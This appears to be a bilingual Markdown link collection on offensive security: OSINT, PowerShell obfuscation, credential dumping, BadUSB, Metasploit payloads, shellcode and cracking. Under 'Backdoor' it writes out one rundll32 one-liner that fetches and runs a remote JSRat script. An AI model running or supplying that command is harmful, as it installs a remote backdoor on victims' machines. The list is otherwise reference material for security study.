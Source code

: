 # IDS
## Wireless IDS [Intrusion Detection System]
Ability to detect suspicious activity such as (WEP/WPA/WPS) attack by sniffing the air for wireless packets. https://github.com/SYWorks/wireless-ids

# OSINT
## OSINT Framework
http://osintframework.com/

## SpiderFoot 2.12 - Automates OSINT to find out everything possible about your target
https://www.kitploit.com/2018/03/spiderfoot-212-automates-osint-to-find.html

# Pliego
## Pliego Sistema de Registro de Nombres de Pasajeros
https://www.ecestaticos.com/file/c53a91545ca895eb95215b5e6a1108fd/1469191837.pdf

# Ofuscación
## Introducción a la ofuscación en PowerShell (1ª parte)
https://www.youtube.com/watch?v=uYuI5OADJgQ

## Introducción a la ofuscación en PowerShell (2ª parte)
https://www.youtube.com/watch?v=SUVG-ftSUkY

## Introducción a la ofuscación en PowerShell (3ª parte)
https://www.youtube.com/watch?v=MkAZammvhaM

## Ejemplo de ofuscación ^
https://twitter.com/404death/status/968116331479314434

# Passwords
## mimikittenz
- mimikittenz is a post-exploitation powershell tool that utilizes the Windows function ReadProcessMemory() in order to extract plain-text passwords from various target processes.
- mimikittenz can also easily extract other kinds of juicy info from target processes using regex patterns.

https://github.com/putterpanda/mimikittenz

## Pwned Passwords
https://haveibeenpwned.com/Passwords

# Backdoor
## Javascript-Backdoor(JSRat)
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test")
```

# BadUSB
- https://thehackerway.com/2017/07/10/badusb-ultra-low-cost/
- https://github.com/ernesto-xload/DigisparkKeyboard
- https://github.com/ernesto-xload/arduino_keyboardlib
- https://github.com/ernesto-xload/DigisparkKeyboard
- https://github.com/uslurper/digiduck
- https://mg.lol/blog/

# Metasploit
## Fundamentos de Metasploit #2
https://www.securityhacklabs.net/2018/02/21/fundamentos-de-metasploit-2/

## Spawn TTY Shell using Msfvenom (One Liner Payload)
http://www.hackingarticles.in/spawn-tty-shell-using-msfvenom-one-liner-payload/

## Cargar en memoria y ejecutar un payload de ejecución de comandos arbitrarios en PowerShell
https://www.jesusninoc.com/2017/02/16/cargar-en-memoria-y-ejecutar-un-payload-de-ejecucion-de-comandos-arbitrarios-en-powershell/

## PowerShell: inyección en memoria usando CertUtil.exe e Invoke-CradleCrafter
http://www.hackplayers.com/2018/06/powershell-inyeccion-en-memoria-usando-certutil.html

# Hydra
## Using Hydra To Crack The Door Open
https://hakin9.org/usinghydratocrackthedooropen/

# Exploits and Shellcodes
- Mingw-w64: How to compile Windows exploits on Kali Linux https://www.hackingtutorials.org/exploit-tutorials/mingw-w64-how-to-compile-windows-exploits-on-kali-linux/
- Shellen: Interactive Shellcoding Environment, In Which You Can Easily Craft Your Shellcodes https://www.kitploit.com/2018/02/shellen-interactive-shellcoding.html
- VENOM 1.0.15: Metasploit Shellcode Generator/Compiler/Listener https://www.kitploit.com/2018/02/venom-1015-metasploit-shellcode.html

# JOB REPOSITORY
http://shinobot.com/jobs.php

# Cracking
- Index of /WEB/CRACKING PARA BEBES POR IVINSON http://ricardonarvaja.info/WEB/CRACKING%20PARA%20BEBES%20POR%20IVINSON/

# Forensic analysis
- RegistryViewer https://www.gaijin.at/en/dlregview.php
